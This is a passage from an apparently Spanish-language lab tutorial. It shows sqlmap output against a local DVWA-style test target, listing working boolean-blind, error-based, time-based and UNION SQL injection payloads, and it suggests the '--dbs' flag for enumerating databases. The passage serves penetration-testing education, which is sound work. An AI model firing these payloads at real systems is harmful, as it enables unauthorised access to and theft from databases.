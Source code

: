 ```txt
[13:40:46] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 138 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: http://172.17.0.2:80/vulnerabilities/sqli/?id=' OR NOT 4697=4697#&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: http://172.17.0.2:80/vulnerabilities/sqli/?id=' OR (SELECT 1636 FROM(SELECT COUNT(*),CONCAT(0x7176707671,(SELECT (ELT(1636=1636,1))),0x717a7a6a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- ytEF&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://172.17.0.2:80/vulnerabilities/sqli/?id=' AND (SELECT 1382 FROM (SELECT(SLEEP(5)))dEuN)-- TVzy&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: http://172.17.0.2:80/vulnerabilities/sqli/?id=' UNION ALL SELECT CONCAT(0x7176707671,0x7853497561634f616d655a55687979796c716d616274684c417058576a5664656a6d45426557686e,0x717a7a6a71),NULL#&Submit=Submit
---
[13:40:53] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
```
SI añadimos flags podemos hacer más cosas, tales como obtener mas información relativa a la base de datos con el flag `-dbs`

```txt
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.6.12#stable}
|_ -| . ["]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:41:53 /2023-12-01/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[13:41:53] [WARNING] it seems that you've provided empty parameter value(s) for testing. Please, always use only valid parameter values so sqlmap could be able to run properly
[13:41:53] [INFO] resuming back-end DBMS 'mysql' 
[13:41:53] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: http://172.17.0.2:80/vulnerabilities/sqli/?id=' OR NOT 4697=4697#&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
```